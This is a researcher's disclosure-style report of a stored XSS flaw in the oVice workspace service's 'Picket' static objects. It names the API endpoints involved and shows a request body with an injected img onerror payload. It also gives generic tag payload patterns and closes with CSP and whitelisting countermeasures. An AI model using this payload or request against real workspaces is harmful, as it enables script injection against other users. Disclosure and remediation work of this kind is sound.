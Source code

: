 ```yaml
---
emoji: 🌞
title: Ovice.in Picket Static Object XSS 0-day Vulnerability Report
author: Zer0Luck
date: '2022-08-01'
categories: 0-day
tags: Web3 vulnerability
---
```


![Ovice.in picket XSS](./sss-2.png)

## Attack Type

- XSS
- Weak algorithm.

## Attack Effect

- Security Check Bypass
- Privilege Escalation

## Found Location

- Users of administrative authority have the authority to create static objects.
- A `Picket object` exists in a Statistic Object.
- `Picket objects` provide a variety of contents using the editor function.

![Static Object Maker](./x_22.png)

```jsx
/console/objects
```

- `/api/v1/object/add` api is called when installing a static object. When clicking on the installed static object, `/api/v1/object/click` api is called. When modifying the installed static object, the `/api/v1/updateStaticObjectData` api is called.

```jsx
/api/v1/object/add
/api/v1/object/click
/api/v1/updateStaticObjectData
```

## Attack Point

- If you have a user account who has permission to modify within the workspace where the static object is installed, you can modify html by activating the function of the `editor`.

![Static Picket Object Editor](./x_24.png)

- It was confirmed that the node `quill` was used, and a 1-day attack could be performed using a version less than 1.3.7 that became a security patch.

![quill editor](./x_23.png)

### Picket Object function

- Administrator authority (default)
- Member's authority.
- Guest authority.
- Visitor Guohan.

## Vulnerability Description

### Client Side Security Check

**Contents-Security-Policy**

- frame-ancestors `none`
    - Defines valid sources for embedding the resource using `<frame> <iframe> <object> <embed> <applet>`. Setting this directive to 'none' should be roughly equivalent to `X-Frame-Options: DENY`
- `script-src` , `object-src` Since CSP Policy is not set, external script loading and requesting are possible.

![csp](./csp-.png)

### Problem with security setting defect in quill-editor

- When selecting an image from a Picket Object installed as a static object, the image is encoded as base 64 and interpreted as an html tag for editing.

![.png](./x_24.png)

- A space for executing javascript may be created using the html tag allowed in the white list as follows.
- Various attacks can be attempted using oVice internal script without space escape.

![exploit-1](./exploit-1.png)
### Static-Object function to strengthen vulnerabilities

- Several functions can be modified when setting up a picket object. `Color, transparency, location, content, shadow,`
- If correction authority exists, transparent objects can be created to make the attack impact higher.

```python
picket_data = {
    "id": f"object_id",
    "data":{
        "auth":"visitor",    
        "width":xpos,
        "height":ypos,
        "return":{"content":"Attack Vector"},
        "shadow": false,
        "border_color":"color",
        "background_color":"color",
        "border_color_opacity":0,
        "background_color_opacity":0
    },
    "workspace_id":"9473"
}
```

![xss-1](./xss-1.png)

- In the case of the picket object function, unlike iframe, it can be created only if it has the right to set, but it basically operates throughout the workspace and can attack invisible xss to the user through the following attribute changes.

## Payload

- An xss attack was performed within the range of tags designated as whitelist.
- Although not all of them were checked, it was confirmed that the rest of the tags were executed except for `script tags`, and based on this, the payload was created.

```jsx
<img src=[] on*event=javascript />
<a href=<inline-javascript> />
<iframe src=<inline-javascript> />
etc ...
```

- When a static object is installed within the worskapce, the attribute can be changed if the corresponding modification authority exists.

```python
picket_data = {
    "id": f"{object_id}",
    "data":{
        "auth":"visitor",    
        "width":421,
        "height":371,
        "return":{"content":"<p><img src="a" onerror="prompt()"></p>"},
        "shadow":true,
        "border_color":"#ffffff",
        "background_color":"#ffffff",
        "border_color_opacity":100,
        "background_color_opacity":100
    },
    "workspace_id":"9473"
}
```
## Security Countermeasure

### Quill-editor security settings are insufficient.

- The object picket can be changed to html through the editor function when an image is registered in using the quill-editor.
- However, it was an XSS attack because all tags except script tags were operated, so it is important to select the necessary tags through a white list method.
- It is recommended to establish a security policy using the functions provided by the editor.

### Let's have a safe client life by applying Content-Security-Policy security.

- Looking at the client-side security techniques of web applications, security techniques for CSPs are currently applied, but only security techniques for `iframe` are applied.
- Of course, due to the nature of the service, I don't think the security policy has been set, but script-src and object-src policies are currently not at stake, so it is possible to load external scripts or request external attacks.
- Therefore, CSP script-src, object-src policies should be set so that only script can be used within the domain ovice.in.

```python
Content-Security-Policy: default-src 'self' https://*.ovice.in
```

- As a result of web application analysis, most cases have statically inserted scripts into html internally, so it is also good to give nonce attributes to allow only the scripts.

```python
Content-Security-Policy: default-src 'nonce-ingjoigrogj/jfeo+iegi=='; base-uri
```

### X-XSS protection Header Settings

- By setting X-XSS protection in the header, it is possible to filter the user's input value through the browser end.

```python
X-XSS-Protection: 1 -> Browser XSS-Filter Enable
```

- Although it can only prevent attacks in which the user's input value is exposed as it is, it can be used as an auxiliary means.

```toc
```